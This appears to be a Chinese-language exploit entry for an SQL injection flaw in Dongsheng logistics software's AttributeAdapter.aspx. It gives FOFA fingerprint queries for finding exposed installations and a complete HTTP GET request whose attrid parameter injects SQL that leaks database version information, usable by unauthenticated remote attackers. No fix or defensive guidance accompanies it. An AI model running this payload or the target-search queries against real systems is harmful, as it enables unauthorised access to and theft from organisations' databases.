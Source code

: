 ## 东胜物流软件AttributeAdapter.aspx存在SQL注入漏洞

东胜物流软件AttributeAdapter.aspx存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```javascript
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```

## poc

```javascript
GET /FeeCodes/AttributeAdapter.aspx?handle=attrinfo&attrid=1%27%20and%201=@@version%20-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0)Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20241106172104100](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061721169.png)

